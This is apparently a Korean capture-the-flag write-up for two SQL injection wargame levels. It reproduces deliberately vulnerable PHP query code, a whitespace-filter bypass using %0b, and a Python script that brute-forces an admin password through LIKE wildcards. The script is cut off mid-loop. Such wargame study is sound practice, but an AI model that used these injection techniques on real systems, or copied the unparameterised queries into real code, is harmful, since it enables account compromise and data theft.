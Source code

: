 ## Giant
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```
다양한 공백 우회 방법에 대한 필터링이 사용되고 있다.<br>
공백 필터링을 우회하여 from과 prob 사이의 공간을 만들어야 한다.

**%0b** 등 다른 공백 우회 방법을 사용해 문제를 해결할 수 있다.
```sql
select 1234 from{$_GET[shit]}prob_giant where 1
-> select 1234 from prob_giant where 1
```
<br>

## Assassin
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```
### exploit
그냥 보면 **'** 만 필터링하는 평범한 구문이지만 like를 사용하고 있기 때문에 취약점이 있다.<br>
like는 _와 %를 사용해서 부분 일치를 검증할 수 있다.
```python
import requests

url = 'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php'
cookie = {"PHPSESSID" : 'ovbfdu14h0vaeamskdlr10nttu'}

result_pw = ''

cash = ''
cash_1 = ''
for i in range(8):
    if not cash_1:
        result_pw += cash
        cash = ''
        cash_1 = ''
    for pw in range(ord('0'), ord('z')):
        param = {'pw': f'{result_pw+chr(pw)}%'}
        res = requests.get(url,params=param, cookies=cookie)
        if not "<hr><br><code>" in res.text:
            if "Hello admin" in res.text: # Hello admin | Hello guest를 바꿔가며 pw를 알아낼 수 있음
```